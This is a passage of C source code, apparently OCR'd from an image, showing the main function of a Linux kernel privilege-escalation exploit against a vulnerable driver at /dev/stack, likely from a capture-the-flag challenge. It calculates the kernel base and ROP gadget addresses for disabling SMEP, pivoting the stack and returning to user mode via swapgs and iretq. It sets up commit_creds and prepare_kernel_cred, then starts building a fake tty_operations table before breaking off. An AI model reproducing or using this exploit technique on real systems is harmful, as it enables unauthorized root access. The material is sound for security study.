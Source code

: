 ```
 
 
int main(int argc, char *argv[])
{
    int fd,fd_tty;
    char buf[0x10];
    int i = 0;
    unsigned long memOffset;
    struct addNote addChunk;
    struct editNote readChunk;
    struct editNote editChunk;
 
    unsigned long smpOffset = 0x1146000;
    memOffset = findAddr();
 
    //debug kernel
    unsigned long vmBase = memOffset - smpOffset;
    unsigned long pop_rdi_ret = vmBase + 0x3d032d;
    unsigned long pop_rax_rbx_r12_r13_rbp_ret = vmBase + 0x46c45e;
    unsigned long movCr4Rdi_pop_rbp_ret = vmBase + 0x004c40;
    unsigned long movRspRax_decEbx_ret = vmBase + 0x805115;
    unsigned long swapgs_sysret = (unsigned long)vmBase + 0x60ba2;
    unsigned long swapgs_popRbp_ret = (unsigned long)vmBase + 0x60394;
    unsigned long iretq = (unsigned long)vmBase + 0x803857;
    unsigned long getR = (unsigned long)getroot;
    unsigned long sh = (unsigned long)shell;
    unsigned long sp;
    size_t rop[32];
 
    commit_creds        = (commit_creds_t)(vmBase + 0x9f4a0);
    prepare_kernel_cred = (prepare_kernel_cred_t)(vmBase + 0x9f870);
 
 
    // unsigned long vmBase = memOffset - smpOffset;
    // unsigned long pop_rdi_ret = vmBase + 0xFE3542;
 
    // unsigned long pop_rax_rbx_r12_rbp_ret = vmBase + 0x3794b9;
    // unsigned long movCr4Rax_pop_rbp_ret = vmBase + 0xe0e4;
    // unsigned long movRspRax_decEbx_ret = vmBase + 0x8841CF;
    // unsigned long getR = (unsigned long)getroot;
    // unsigned long swapgs_ret = (unsigned long)vmBase + 0x884188;
    // unsigned long iretq = (unsigned long)vmBase + 0x882d77;
    // unsigned long sh = (unsigned long)shell;
 
    //print part
    printf("pop_rdi_ret:0x%llx\n",pop_rdi_ret);
    printf("movCr4Rdi_pop_rbp_ret:0x%llx\n",movCr4Rdi_pop_rbp_ret);
    printf("movRspRax_decEbx_ret:0x%llx\n",movRspRax_decEbx_ret);
    printf("iretq:0x%llx\n",iretq);
 
    //open Dev
    char* pos = "/dev/stack";
    fd = openDev(pos);
    char ttyBuf[tty_size] = {'0'};
    addChunk.len = tty_size;
    addChunk.data = ttyBuf;
    addFun(fd,&addChunk);
 
 
    void* fake_tty_operations[30];
    for(int i = 0; i < 30; i++)
    {
        fake_tty_operations[i] = movRspRax_decEbx_ret;
```